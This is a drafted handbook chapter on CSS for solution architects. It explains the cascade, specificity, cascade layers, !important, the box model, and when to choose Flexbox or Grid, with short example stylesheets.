# Chapter: CSS

Part: [04 — Frontend Architecture](PART_OVERVIEW.md) · Status: Drafted

## 1. Introduction

Cascading Style Sheets (CSS) is the declarative language that governs how
markup is transformed into a visual (or aural, or tactile) presentation. To
most engineers CSS looks like a styling detail — colors, fonts, spacing — and
is treated as a cosmetic concern owned by whoever touches the user interface
(UI) last. That framing is a mistake at the architecture level. CSS is a
constraint-resolution engine with its own algorithm (the cascade), its own
computational model for space allocation (the box model plus two distinct
layout engines, Flexbox and Grid), and its own position in the browser's
rendering pipeline that directly determines a page's runtime performance
profile. A Solution Architect who treats CSS as "just styling" will
under-provision for the real failure modes this chapter covers: specificity
wars that make a codebase unmaintainable at scale, render-blocking stylesheets
that dominate a page's Largest Contentful Paint (LCP), and global-scope leaks
that silently break unrelated components after a routine change.

This chapter treats CSS as an architectural substrate: a system with
deterministic resolution rules, a computational cost model, and a set of
competing methodologies (BEM, utility-first frameworks such as Tailwind CSS,
CSS Modules, CSS-in-JS) for managing that system's scope and cost as an
application and its engineering team grow. The chapter owns the cascade
algorithm, specificity mechanics, the box model, the internals of the
Flexbox and Grid layout engines, the browser rendering pipeline stages
(style, layout, paint, composite) and their performance implications, and
CSS-specific architecture methodologies at scale. It does not re-teach markup
semantics (owned by the HTML chapter, not yet drafted in this part) or
general JavaScript/DOM (Document Object Model) event architecture (owned by
the JavaScript chapter, not yet drafted); where this chapter must reference
those boundaries it recaps in one or two sentences and links forward.

## 2. Historical Evolution

CSS was proposed by Håkon Wium Lie in 1994 and became a World Wide Web
Consortium (W3C) recommendation as CSS Level 1 in 1996, at a time when
presentation was otherwise controlled by proprietary HTML attributes
(`bgcolor`, `<font>` tags) mixed directly into markup — a coupling that made
consistent, site-wide restyling essentially impossible. CSS2 (1998) added
positioning schemes (`absolute`, `relative`, `fixed`) and media types. Rather
than shipping a single monolithic CSS3, the W3C split the specification into
independently versioned modules starting in the early 2000s (Selectors,
Backgrounds and Borders, Color, Flexible Box, Grid, and dozens more), which is
why "CSS3" is not a single coherent version number but a marketing shorthand
for "the modular era of CSS module specifications."

Layout capability evolved in three distinct eras, each solving a problem the
prior era's tools could not:

- **Float/table era (1996-2010)**: layout was achieved by repurposing
  `float` (designed for wrapping text around images) and `<table>` markup
  (designed for tabular data) as general-purpose layout tools, producing
  fragile, order-dependent, semantically incorrect markup.
- **Flexbox era (CSS Flexible Box Layout, stabilized ~2013-2015 across
  browsers)**: introduced the first layout system designed specifically for
  UI layout — one-dimensional distribution of space along a main axis, with
  content-driven sizing algorithms.
- **Grid era (CSS Grid Layout, stabilized ~2017)**: introduced true
  two-dimensional layout — explicit row and column tracks defined
  independently of markup order, solving problems Flexbox's one-dimensional
  model could not (for example, aligning items across both rows and columns
  simultaneously).

In parallel, CSS Custom Properties (informally "CSS variables," stabilized
around 2016-2017) gave the cascade a first-class variable substitution
mechanism, enabling design-token architectures without a preprocessor. CSS
Cascade Layers (`@layer`, stabilized 2022) gave engineers explicit control
over cascade precedence independent of selector specificity — closing a
decade-long architectural gap that utility-first frameworks and CSS-in-JS
libraries had been working around with increasingly specific selectors or
inline styles. Container Queries (stabilized 2023) closed a second
long-standing gap: the ability to respond to a component's own container
size rather than only the viewport, which is the foundation of truly
reusable, drop-in-anywhere components.



## 3. Why It Exists

Without CSS, presentation logic would live inline in markup or in imperative
script, coupling visual design to document structure and to application
logic. That coupling has two costs an architect must reason about explicitly.
First, it destroys reuse: the same visual treatment cannot be applied
consistently across a large surface area without duplicating declarations
everywhere they're needed. Second, it destroys separation of concerns: a
designer cannot iterate on visual treatment without touching markup or
script owned by an engineer, and an engineer cannot restructure markup
without risking a visual regression, because the two are the same artifact.
CSS exists to decouple those two concerns into independently versionable
layers connected by a stable contract — selectors — while providing a
deterministic algorithm (the cascade) for resolving conflicts when multiple
rules target the same element, which is the unavoidable consequence of
decoupling: once style rules can come from many independent sources (browser
defaults, a design system, a component library, a page-specific override),
something must decide which one wins.

## 4. Core Concepts

### 4.1 The Cascade Algorithm

**Definition.** The cascade is the algorithm the browser runs, for every CSS
property on every element, to select exactly one winning declaration from
the set of all declarations that could apply to that element. "Cascading"
in the language's name refers precisely to this: styles cascade down through
an ordered set of tie-breaking criteria until exactly one value survives.

**Mechanism.** The cascade resolves conflicting declarations by evaluating,
in strict order, four criteria — and only moving to the next criterion when
the current one produces a tie:

1. **Origin and importance.** Declarations are first sorted by where they
   came from and whether they're marked `!important`. From lowest to
   highest precedence: user-agent (browser default) styles, user styles,
   author (developer) styles, author `!important` styles, user
   `!important` styles, user-agent `!important` styles. In practice, for
   the vast majority of production work, this collapses to: browser
   defaults lose to author styles, and author `!important` beats every
   normal-precedence author declaration regardless of specificity.
2. **Cascade layers** (`@layer`), if used — see § 4.3. Layers slot in
   between origin and specificity: a layer declared later has higher
   precedence than a layer declared earlier, and this ordering wins over
   specificity comparisons *within* the same origin/importance tier.
3. **Specificity** — see § 4.2. Within the same origin/importance/layer
   tier, the declaration with the numerically higher specificity wins.
4. **Source order.** If origin, layer, and specificity are all tied, the
   declaration that appears later in the stylesheet (or in a later
   `<link>`/`<style>`) wins. This is why import/link order in an HTML
   `<head>` is an architectural decision, not a formatting nicety — it is
   the tie-breaker of last resort.



**Decision implications.** Every CSS architecture methodology in this
chapter (§ 7) is, underneath its surface conventions, a strategy for keeping
the cascade's tie-breaking predictable at scale. BEM keeps specificity flat
by convention; utility-first frameworks keep specificity flat by construction
(every rule is a single class selector); CSS Modules sidestep the cascade
almost entirely by generating unique names so collisions can't occur; Cascade
Layers give large codebases an explicit, declared precedence order instead of
relying on emergent selector-specificity arithmetic.

**Common failure mode.** The "specificity war": as a codebase grows, engineers
under deadline pressure fix visual bugs by adding more specific selectors
(`#header .nav ul li a.active`) or reaching for `!important`, rather than
addressing why the existing rule wasn't already winning. Each escalation
raises the floor for the next required override, and because origin beats
layer beats specificity beats source order, `!important` in application code
can permanently blind future authors to normal cascade reasoning for that
property. See § 15 and § 17 for the full failure taxonomy.

**Concrete scenario.** A design system ships a `.btn { color: #333; }` base
button style. A product team's page-specific stylesheet, loaded after the
design system's stylesheet, needs a red "Delete" button and writes
`.btn.delete { color: red; }`. Both are author-origin, unlayered, and neither
uses `!important`, so specificity decides: `.btn.delete` has two class
selectors (specificity `0,0,2,0`) versus `.btn`'s one (`0,0,1,0`), so the red
rule wins regardless of source order. If a third stylesheet later adds
`.btn { color: blue !important; }` to force brand compliance everywhere, it
now wins over *both* prior rules unconditionally, because `!important`
promotes the declaration to a higher-precedence tier that specificity can no
longer contest — the delete button silently turns blue, and no
specificity-only fix can override it without either another `!important` or
a cascade-layer restructuring.

### 4.2 Specificity: Calculation and Reasoning

**Definition.** Specificity is a four-part, weighted score computed per
selector that determines precedence *within* a tied origin/importance/layer
tier (step 3 of § 4.1). It is not a single number in the way "10" is a
number — it is a tuple, conventionally written `(a, b, c, d)`, compared
left-to-right the way version numbers are compared, never summed across
columns.

**Mechanism.** Each selector contributes to the tuple as follows:

| Column | Contributed by | Weight |
|---|---|---|
| `a` | Inline `style="..."` attribute | Highest — beats any selector-based rule (barring `!important`) |
| `b` | ID selectors (`#id`) | Second highest |
| `c` | Class selectors (`.class`), attribute selectors (`[type="text"]`), and pseudo-classes (`:hover`, `:nth-child()`) | Third |
| `d` | Type selectors (`div`, `a`) and pseudo-elements (`::before`) | Lowest |

Combinators (`>`, `+`, `~`, and the descendant space) contribute nothing
themselves — only the simple selectors they connect count. The universal
selector `*` and the `:where()` pseudo-class contribute **zero** specificity
regardless of what's inside them, which makes `:where()` a deliberate
specificity-neutral grouping tool — useful for authoring reset styles or
utility scaffolding that must never win a specificity fight, only a source-
order fight. `:is()` and `:not()`, by contrast, take on the specificity of
their *most specific* argument, not zero.

Because comparison is lexicographic (column by column, not summed), one
million type selectors (`d`-column) can never outrank a single class selector
(`c`-column): `(0,0,0,999999)` is still less than `(0,0,1,0)`.



**Decision implications.** Specificity is a *design tool*, not merely a
resolution mechanism to reason about after the fact. An architecture that
disciplines its authors to a low, flat specificity ceiling (one class
selector per rule, as both BEM and utility-first CSS enforce by convention or
construction) makes every future override predictable: the newest rule with
equal specificity always wins via source order, which is a far cheaper
mental model to maintain across a large team than reasoning about
tuple comparisons. An architecture that allows ID selectors or deep
descendant chains in application code effectively creates unbounded
future-override cost, because someone eventually needs a selector *more*
specific than `#header .nav ul li a.active`, and the only tools left are
deeper nesting or `!important`.

**Common failure mode.** Treating specificity as additive ("three classes
must beat one ID because three is more than one") rather than positional —
this single misunderstanding is behind a large share of "my CSS isn't
applying and I don't know why" defects.

**Concrete scenario.** A component library ships
`.card__title { font-size: 1.25rem; }` (specificity `0,0,1,0`). A consuming
application, trying to make one specific card's title larger, writes
`div.card .card__title { font-size: 1.5rem; }` (specificity `0,0,1,2` — one
class plus two type selectors). It works, but the next engineer, copying the
pattern for a different override, writes `.page .content .card .card__title`
(specificity `0,0,4,0`) purely to "be safe," which now silently outranks
*any* future one-class override anywhere else in the codebase that touches
`.card__title`, including ones with legitimate business reasons to win.

### 4.3 Cascade Layers (`@layer`)

**Definition.** Cascade Layers, declared with the `@layer` at-rule, let
authors define an explicit, named precedence ordering for groups of rules
that is evaluated *before* specificity (step 2 in § 4.1's ordering) —
decoupling "which rule wins" from "how specific was the selector that wrote
it."

**Mechanism.** A layer order is declared once, typically at the top of a
stylesheet, and every layer declared later in that list has higher
precedence than every layer declared earlier, regardless of the specificity
of the selectors inside them:

```css
/* Declares the precedence order up front — later layers always win,
   even if an earlier layer's selector is more specific. */
@layer reset, base, components, utilities, overrides;

@layer reset {
  * { margin: 0; padding: 0; box-sizing: border-box; }
}

@layer components {
  .card__title#legacy-title { font-size: 1.25rem; } /* high specificity */
}

@layer utilities {
  .text-lg { font-size: 1.5rem; } /* one class — normally loses to an ID */
}
```

Here `.text-lg` in the `utilities` layer beats `#legacy-title` in the
`components` layer on any element that has both classes applied, purely
because `utilities` was declared after `components` — specificity is never
even consulted, because the layer comparison already broke the tie. Rules
with no `@layer` wrapper at all form an implicit, unnamed layer that has
**higher** precedence than any named layer, which is why a plain, unlayered
override in application code still wins over a heavily-layered design
system by default — an important safety property for incremental adoption.



**Decision implications.** `@layer` finally gives large-scale CSS
architectures a tool that utility-first frameworks and CSS-in-JS libraries
had previously simulated with workarounds: Tailwind's `@layer` directive
(pre-dating and now aligned with the native at-rule) exists specifically so
utility classes can stay single-class (low, flat specificity) while still
guaranteeing they win over component-layer defaults — without either side
resorting to `!important`. For a design-system architecture, declaring
`@layer reset, tokens, base, components, utilities, overrides;` up front
gives every future contributor an explicit, documented answer to "which of
these two competing rules should win," independent of how specifically
either one happens to be written.

**Common failure mode.** Mixing layered and unlayered rules without
realizing unlayered rules always win: a team migrates a legacy stylesheet
into `@layer legacy` expecting it to now be easily overridable, but new,
un-wrapped one-off styles elsewhere in the app were already unintentionally
winning over the legacy layer before the migration and continue to do so
after, masking whether the migration actually changed anything.

**Concrete scenario.** A team importing a third-party CSS library wraps the
import in `@layer thirdparty { @import url(...); }`. Because `thirdparty` is
declared first (lowest precedence) in the team's layer order, every rule in
their own `base` and `components` layers can now override it using ordinary,
low-specificity selectors — no need to inspect the third-party library's
internal specificity or add `!important`, which is precisely the isolation
guarantee `@layer` provides for vendoring external CSS safely.

### 4.4 `!important` Resolution

**Definition.** `!important` is a declaration-level modifier that promotes a
single property value to a higher-precedence origin/importance tier (see
step 1 of § 4.1), overriding normal specificity and cascade-layer ordering
for that declaration.

**Mechanism.** Critically, `!important` inverts cascade-layer precedence
specifically: among `!important` declarations, an *earlier*-declared layer
wins, the opposite of the normal (non-`!important`) ordering — this asymmetry
exists so that a foundational reset layer's `!important` rule (rare, but used
defensively) cannot be casually overridden by a later utility layer's
`!important`, which would otherwise defeat the purpose of marking the reset
as non-negotiable. Ordinary (non-`!important`) unlayered author styles still
beat ordinary layered styles, but `!important` unlayered author styles are
beaten by `!important` styles in *any* explicitly named layer — another
inversion relative to the non-`!important` case, and a frequent source of
"I added `!important` and it still didn't win" confusion when layers are in
play.

**Decision implications.** `!important` should be reserved for two narrow,
legitimate architectural uses: (1) utility classes whose entire purpose is
guaranteed override regardless of context (Tailwind's `!` prefix utilities,
e.g. `!text-red-500`, generate `!important` deliberately for this reason),
and (2) defensive overrides of third-party or inline styles an author cannot
otherwise control (for example, a widget injected by an analytics script
that sets inline `style` attributes). Using it to resolve internal,
first-party specificity disputes is a design smell — it means the
architecture's specificity or layering discipline has already broken down,
and the `!important` is a symptom being treated, not the cause.

**Common failure mode.** Escalating `!important` chains: once one rule uses
`!important` to win, the only way to override *that* rule later is another
`!important` at equal or higher precedence, so a single early misuse compounds
into an unmaintainable stack, since normal specificity/source-order reasoning
no longer applies to that property on that element.

**Concrete scenario.** An inline `style="display: none;"` attribute set by a
third-party embed script hides a widget an application wants visible.
Because inline styles occupy the highest origin/importance tier below only
`!important` itself, an ordinary CSS rule — no matter how specific — cannot
override it; only `display: block !important;` in author CSS reaches the
tier needed to win. This is the canonical legitimate use case for
`!important`: overriding a presentation source the architecture does not
control, not overriding the architecture's own prior decisions.

### 4.5 The Box Model

**Definition.** The box model is the algorithm the browser uses to compute
the rectangular space every element occupies, decomposed into four nested
regions: content, padding, border, and margin.

**Mechanism.** Two sizing modes exist, controlled by the `box-sizing`
property, and they disagree about what a declared `width`/`height` measures:

- `box-sizing: content-box` (the historical CSS default): `width` sets only
  the *content* region's size; padding and border are added on top, so an
  element's actual rendered width is `width + padding-left + padding-right +
  border-left-width + border-right-width`.
- `box-sizing: border-box`: `width` sets the *total* rendered width including
  padding and border; the content region shrinks to accommodate them.



Margins additionally participate in **margin collapsing**: adjacent vertical
margins between block-level siblings (and between a parent and its first/last
child, under specific conditions) collapse into a single margin equal to the
larger of the two, rather than summing — a behavior with no equivalent on
horizontal margins, and one that Flexbox and Grid containers explicitly
suppress for their direct children, which is itself a reason architects
migrate legacy float-based layouts to Flexbox/Grid: it removes an entire
class of "why is there extra/missing space here" defects.

**Decision implications.** Nearly every production CSS reset or
normalization layer sets `*, *::before, *::after { box-sizing: border-box; }`
globally, because `border-box` sizing composes far more predictably: a
`width: 100%; padding: 1rem;` element never overflows its container, whereas
the same declaration under `content-box` does. This is a one-line decision
with system-wide consequences, which is exactly why it belongs in an
architecture's foundational reset layer (see § 4.3's `@layer reset`), not
repeated ad hoc per component.

**Common failure mode.** Mixing sizing modes across a codebase (some
components authored assuming `border-box`, others relying on the unset
`content-box` default) produces layout bugs that only appear when a
component is reused in a context with different padding — the component
"worked" in isolation because its author's mental model matched the
prevailing sizing mode locally, but the assumption wasn't encoded anywhere.

**Concrete scenario.** A three-column layout sets each column to
`width: 33.33%;` with `padding: 16px;` under the (unset) `content-box`
default. Each column's actual rendered width becomes `33.33% + 32px`,
and three columns plus their borders overflow the container by 96px plus
border widths, wrapping the third column onto a new line — a bug that
disappears the instant `box-sizing: border-box` is applied, with zero other
changes, which is precisely why this single property is treated as a
required reset rather than a per-component fix.

### 4.6 Layout Engine: Flexbox (One-Dimensional Distribution)

**Definition.** Flexbox (CSS Flexible Box Layout) is a layout engine that
distributes space among the children of a single container along one
axis at a time — a main axis and a perpendicular cross axis — using a
content-aware sizing algorithm rather than fixed pixel math.

**Mechanism.** Setting `display: flex` on a container activates three
governing decisions:

1. **Axis direction** (`flex-direction: row | row-reverse | column |
   column-reverse`) determines which axis is "main" — `row` makes the main
   axis horizontal, `column` makes it vertical, and every other Flexbox
   property (`justify-content`, `align-items`, etc.) is defined *relative to*
   this axis, not to literal horizontal/vertical, which is why swapping
   `flex-direction` from `row` to `column` swaps the effective meaning of
   `justify-content` and `align-items` with it.
2. **Main-axis distribution** (`justify-content`) controls how leftover
   space along the main axis is distributed between/around/before items
   (`flex-start`, `center`, `space-between`, `space-around`, `space-evenly`).
3. **Cross-axis alignment** (`align-items` for the group, `align-self` for
   an individual item) controls positioning perpendicular to the main axis.

The sizing algorithm itself — how each flex item's final size is computed —
is the part most engineers never learn explicitly, and it is governed by
three properties combined into the `flex` shorthand:

- `flex-basis`: the item's starting main-axis size before growing/shrinking
  is applied (defaults to `auto`, meaning "use the item's own width/height or
  content size").
- `flex-grow`: a unitless ratio describing how much of the container's
  *leftover* space (after all items' basis sizes are laid out) this item
  should absorb, relative to siblings' `flex-grow` values.
- `flex-shrink`: a unitless ratio describing how much this item should
  shrink, relative to siblings, when the combined basis sizes *exceed* the
  container (negative space, not leftover space).



**Decision implications.** Flexbox is the correct engine when the layout
problem is fundamentally one-dimensional: a navigation bar's items, a row of
form controls, a vertically stacked card's internal sections, or any
"distribute this leftover space among siblings" problem where alignment
across a second axis to *other, unrelated rows* doesn't matter. The moment a
design requires items in one row to align with items in a different row (a
photo gallery where captions in row 2 must line up with captions in row 1
regardless of content length), Flexbox no longer has the information to do
that — each flex container only knows about its own children, not about
sibling rows — which is precisely the boundary Grid (§ 4.7) exists to cross.

**Common failure mode.** Nesting Flexbox containers to fake two-dimensional
alignment (a flex row of flex columns, hand-tuning `flex-basis` percentages
to approximate grid columns) produces layouts that silently misalign the
moment content length varies, because nothing is actually enforcing a shared
column grid — each nested flex container is independently distributing its
own children's leftover space.

**Concrete scenario.** A pricing page has three plan cards in a row, each
containing a heading, a price, a feature list, and a button. Using
`display: flex; flex-direction: column;` inside each card with
`flex-grow: 1;` on the feature list makes every card's button align to the
same bottom edge even when feature-list lengths differ — a one-dimensional,
per-card problem Flexbox solves cleanly. If the requirement instead becomes
"align every card's price *and* every card's button across all three cards
to the same horizontal lines," that's now a two-dimensional, cross-card
alignment problem, and the architecturally correct move is Grid with
`subgrid` (§ 4.7), not deeper Flexbox nesting.

### 4.7 Layout Engine: Grid (Two-Dimensional Placement)

**Definition.** CSS Grid Layout is a layout engine that defines an explicit
two-dimensional grid of rows and columns on a container, onto which children
are placed either automatically or by explicit line/area reference —
independent of the markup order those children appear in.

**Mechanism.** A grid container declares its track structure directly:

```css
.gallery {
  display: grid;
  grid-template-columns: repeat(auto-fill, minmax(220px, 1fr));
  grid-template-rows: auto;
  gap: 1.5rem;
}
```

`grid-template-columns`/`grid-template-rows` define **explicit tracks**; any
content that overflows the explicit grid generates **implicit tracks** sized
by `grid-auto-rows`/`grid-auto-columns` (defaulting to `auto`). The `fr`
(fractional) unit is Grid's answer to Flexbox's `flex-grow`: it distributes
leftover space in the *track definition itself* rather than per-item, so
`grid-template-columns: 1fr 2fr 1fr` guarantees the middle column is always
exactly twice the width of the outer two, recomputed automatically as the
container resizes — arithmetic that would require manual percentage math
under Flexbox. `repeat(auto-fill, minmax(220px, 1fr))` is a common
responsive-without-media-queries idiom: the browser packs as many
`220px`-minimum columns as fit, each stretching to fill leftover space,
adding or removing columns automatically as the container width changes —
this single line replaces what a Flexbox + media-query approach would need
several breakpoints to approximate.

Named grid-template-areas provide a second, more visual placement API:

```css
.page-layout {
  display: grid;
  grid-template-columns: 240px 1fr;
  grid-template-rows: auto 1fr auto;
  grid-template-areas:
    "sidebar header"
    "sidebar main"
    "sidebar footer";
}
.header  { grid-area: header;  }
.main    { grid-area: main;    }
.footer  { grid-area: footer;  }
.sidebar { grid-area: sidebar; }
```

The ASCII-art shape of `grid-template-areas` is not a stylistic convenience —
it is the layout's structure made literally visible in source, which is why
teams favor it for whole-page shells even though `grid-template-columns` plus
explicit line numbers can express the same layout.

`subgrid` (a value for `grid-template-columns`/`grid-template-rows`) lets a
nested grid container inherit its parent's track sizing instead of defining
its own — this is the mechanism that solves Flexbox's cross-container
alignment gap from § 4.6: nested cards can each opt into the *same* column
tracks as their shared ancestor grid, guaranteeing alignment across cards
without any manual measurement.



**Decision implications.** Grid is the correct engine whenever the layout
problem is inherently two-dimensional: page shells (header/sidebar/main/
footer), card grids that must align across both rows and columns, or any
layout better described by "a grid of N columns and M rows" than by "a row
(or column) that distributes leftover space." Flexbox and Grid are not
competitors to choose between globally — production architectures use Grid
for the outer, two-dimensional page/section structure and Flexbox for the
one-dimensional distribution *within* each grid area (e.g. a card's internal
header/body/footer stack), because each engine is solving the dimensionality
its area of the layout actually has.

**Common failure mode.** Reaching for Grid to solve a genuinely
one-dimensional problem (a single row of nav links) adds unnecessary
conceptual overhead — explicit track definitions where `justify-content`
would have sufficed — and reaching for Flexbox to solve a genuinely
two-dimensional problem (as in § 4.6's scenario) produces alignment drift
that only manifests once content varies in production, often past the point
where the underlying engine choice is cheap to change.

**Concrete scenario.** A dashboard needs a 12-column responsive grid where
widgets can span multiple columns/rows (`grid-column: span 4;
grid-row: span 2;`) and reflow automatically as widgets are added or removed
by the user. `grid-template-columns: repeat(12, 1fr);` combined with
`grid-auto-flow: dense;` (which back-fills gaps left by variable-span items
rather than leaving holes) implements this in a handful of lines; the
equivalent Flexbox implementation would require manually computing each
widget's `flex-basis` percentage and could not automatically back-fill gaps,
because `dense` packing is a two-dimensional placement decision Flexbox's
model has no concept of.

### 4.8 Flexbox vs. Grid: The Architectural Decision Framework

**Definition.** Because both engines can produce visually similar results for
simple cases, teams need an explicit decision rule rather than defaulting to
whichever engine an individual author learned first.

**Mechanism — the decision test.** Ask: *does this layout need to align
items across more than one independent row/column group?* If yes (page
shells, card grids with cross-card alignment, dashboards with variable-span
widgets), the problem is two-dimensional — use Grid for that container. If
no (a single row or column of items whose only relationship to each other is
"distribute the leftover space in this one dimension"), the problem is
one-dimensional — use Flexbox. A third, narrower case: if the container's
children need to *wrap* onto new lines with each line independently sized
to its content (a tag/chip list, where line 2's height depends only on line
2's content, not on line 1), Flexbox with `flex-wrap: wrap` is usually
simpler than Grid, because the "independent per-line sizing" behavior is
Flexbox's wrapping default, whereas Grid would require `grid-auto-rows` and
still couple row heights across the whole grid unless explicitly sized per
row.

